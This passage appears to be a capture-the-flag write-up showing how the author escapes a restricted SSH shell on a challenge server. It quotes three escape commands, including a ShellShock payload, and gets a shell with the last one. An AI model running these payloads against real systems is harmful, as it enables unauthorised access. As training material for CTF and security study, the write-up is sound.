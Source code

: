 ```
Zetatech Binoculars BT.4          ::: [NOT CONNECTED]


Connection to 51.75.202.113 closed.
```

Ho ! Connection closed ! Maybe we have to bypass a restricted shell or a similar protection.
Lets type the question to Google : `escape restricted shell` and click on the first link : https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells

Look at the ninth slide : 

```bash
# Use SSH on your machine to execute commands before the remote shell is loaded
ssh restricted@10.20.30.40 -t "/bin/sh"

# Or start the remote shell without loading "rc" profile (where most of the limitations are often configured)
ssh restricted@10.20.30.40 -t "bash --noprofile"

# Try ShellShock on vulnerable shell implementations
ssh restricted@10.20.30.40 -t "() { :; }; /bin/bash"
```

Let's try this 3 commands

```
[th1b4ud@th1b4ud-pc ~]$ ssh puppet-master@51.75.202.113 -p 2021 -i key -t "/bin/sh"

[...]

Connection to 51.75.202.113 closed.
```

No

```
[th1b4ud@th1b4ud-pc ~]$ ssh puppet-master@51.75.202.113 -p 2021 -i key -t "bash --noprofile"

[...]

Connection to 51.75.202.113 closed.
```

No

```
[th1b4ud@th1b4ud-pc ~]$ ssh puppet-master@51.75.202.113 -p 2021 -i key -t "() { :; }; /bin/bash"
.___..___.___..__..___..___ __ .  .
  _/ [__   |  [__]  |  [__ /  `|__|
./__.[___  |  |  |  |  [___\__.|  |


Do not use Zetatech maintenance interface if you are not authorized by Zetatech Corporation.
puppet-master@2a87f3ade358:~$ 
```
